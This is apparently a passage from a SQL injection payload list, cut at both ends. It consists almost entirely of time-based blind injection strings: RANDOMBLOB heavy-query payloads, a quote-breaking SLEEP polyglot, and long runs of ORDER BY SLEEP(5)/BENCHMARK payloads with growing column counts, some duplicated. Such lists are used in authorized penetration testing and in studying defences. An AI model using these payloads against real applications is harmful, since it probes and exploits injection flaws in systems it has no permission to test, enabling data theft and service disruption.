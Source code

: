           RANDOMBLOB(1000000000/2)
          AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
          OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
          SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/ 
          
 ## 5-Union Select Payloads
     
     ORDER BY SLEEP(5)
      ORDER BY 1,SLEEP(5)
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
      ORDER BY SLEEP(5)#
      ORDER BY 1,SLEEP(5)#
      ORDER BY 1,SLEEP(5),3#
      ORDER BY 1,SLEEP(5),3,4#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#